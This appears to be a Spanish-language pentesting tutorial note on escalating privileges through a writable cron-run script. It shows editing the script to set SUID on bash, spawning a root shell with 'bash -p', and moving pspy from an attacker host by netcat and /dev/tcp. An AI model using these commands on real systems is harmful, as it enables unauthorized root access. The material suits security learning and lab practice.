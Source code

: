 este script monitorea cambios en los procesos en ejecución asi que si lo ejecutamos desde un directorio con permisos de escritura podremos ver si hay alguna tarea cron existente 


![[Pasted image 20240225193153.png]]

Al ejecutarlo podemos ver que al parecer hay una tarea cron que ejecuta un script el cual esta en el directorio tmp 

![[Pasted image 20240225193415.png]]
Al analziar el script nos podemos dar cuenta de que tiene permisos de escritura para otros usuarios ahora lo que podemos hacer es modifcar el archivo para que cuando se ejecute el script se le otorge el permiso suid a una bash y asi cualquier usuario pueda obtener una bash como superusuario 

![[Pasted image 20240225193826.png]]

Ahora al guardar y ver los permisos del binario bash podemos ver que tiene el permiso suid agregado

![[Pasted image 20240225193924.png]]


Entonces ahora podemos ejecutar el siguiente comando el cual nos otorgara una bash como root gracias a que el propietario es root y bash tiene permiso suid 

```bash
bash -p
```


Otra forma de poder enumerar las tareas cron es con ayuda de pspy para esto podemos entrar al siguiente enlace y descargar la ultima version del pspy

![[Pasted image 20240225202558.png]]

Ahora ya descargado en la maquina atacante lo que podemos hacer si la maquina victima no tiene curl o wget es ponernos en escucha en la maquina atacante y mandar el archivo con el siguiente comando

```bash
nc -lvnp puerto < pspy64
```

ahora lo que debemos hacer en la maquina victima es ejecutar este comando para asi descagar el archivo de la maquina atacante

```bash
cat < /dev/tcp/ip_atacante/puerto > pspy64
```

Ahora solo verificamos si los son iguales con el uso de md5

![[Pasted image 20240225203844.png]]

Listo todo esta correcto 


Ahora solo queda dar permisos de ejecucion y ejecutarlo 

![[Pasted image 20240225204013.png]]
